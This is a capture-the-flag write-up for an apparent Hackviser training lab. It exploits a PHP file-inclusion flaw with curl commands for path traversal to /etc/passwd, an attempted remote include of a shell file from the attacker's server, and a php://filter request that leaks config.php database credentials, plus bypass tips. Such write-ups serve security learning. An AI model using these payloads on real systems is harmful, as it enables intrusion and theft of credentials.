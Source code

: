 ```yaml
---
title: Remote File Inclusion (RFI) and file read in healthmateapp.hv
date: 2025-09-29 00:00:00 +0000
categories: [writeups, hackviser]
tags: [rfi, lfi, php-filters, web]
excerpt: "Discovered file read via path traversal and php://filter base64 to exfiltrate config.php credentials after RFI was blocked by allow_url_include=0."
---
```


## Goal

Find the second user on the system and retrieve database credentials from `config.php` in the Hackviser room `healthmateapp.hv`.

## Summary

- The app entry was `http://healthmateapp.hv/index.php?page=home.php`.
- Path traversal allowed reading system files like `/etc/passwd` via the `page` parameter.
- Classic RFI to an external server failed because `allow_url_include=0`.
- Used `php://filter/convert.base64-encode/resource=...` to read `config.php` source as base64, then decoded locally to obtain DB credentials.

## Path traversal to enumerate users

I confirmed file read by requesting `/etc/passwd` through `page`:

```bash
curl -s "http://healthmateapp.hv/index.php?page=../../../../etc/passwd" | sed -n '1,40p'
```

From the output, the second user on the system is: `daemon`.

## RFI attempts and filter bypass

- I tried RFI to a local Python server to gain command execution, e.g. `?page=http://<my-ip>:8000/shell.txt`, but the application returned (from `index.php`) that `allow_url_include=0`, blocking remote includes.
- I then pivoted to PHP filters to read source files in base64.

### Read `config.php` with php://filter

```bash
# retrieve base64-encoded source of config.php (adjust traversal depth as needed)
curl -s "http://healthmateapp.hv/index.php?page=php://filter/convert.base64-encode/resource=../../../../var/www/html/config.php" \
  | sed -n '1,200p' > base64.txt

base64 -d base64.txt > config.php
head -40 config.php
```

Decoded `config.php` content:

```php
<?php
    try{
        $host = 'localhost';
        $db_name = 'hv_database';
        $charset = 'utf8';
        $username = 'root';
        $password = '6UabF6Ff7XJq8PMtA';
    
        $db = new PDO("mysql:host=$host;dbname=$db_name;charset=$charset",$username,$password);
    } catch(PDOException $e){
       
    }
?>
```

- Database password: `6UabF6Ff7XJq8PMtA`.
- With DB creds, further exploitation (DB dump, auth bypass) is possible depending on app logic.

## Notes

- If traversal depth differs, adjust `../../../../` accordingly.
- If the app applies extension whitelisting, try appending a null byte or a permitted extension where applicable (older PHP only).
- For large files, use `sed -n 'start,endp'` to paginate or `dd` with `ibs/obs` in case filters limit output size.
